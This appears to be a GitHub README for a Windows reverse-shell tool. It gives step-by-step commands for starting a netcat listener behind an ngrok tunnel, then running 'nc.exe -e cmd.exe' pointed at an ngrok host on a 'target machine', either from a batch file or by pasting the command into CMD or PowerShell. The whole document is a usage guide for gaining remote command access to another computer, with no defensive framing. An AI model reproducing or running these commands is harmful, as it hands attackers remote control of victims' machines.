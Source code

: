 # Simple-Reverse-Shell-Windows
Simple reverse shell Windows CMD with Netcat and Ngrok

# How To Use
  For example:
  
  On Remote Machine:
  1. run "ngrok tcp 6969"
  2. run netcat "nc -lvnp 6969"
  
  On target machine Windows:
  1. edit RShell.bat and put your ngrok ip and port, should be like this "....\\nc.exe -e cmd.exe 0.tcp.ngrok.io 27384"
  2. Then run RShell.bat on your target machine. 


     OR YOU CAN JUST COPY THE COMMAND AND PASTE ON CMD/POWERSHELL :)
     
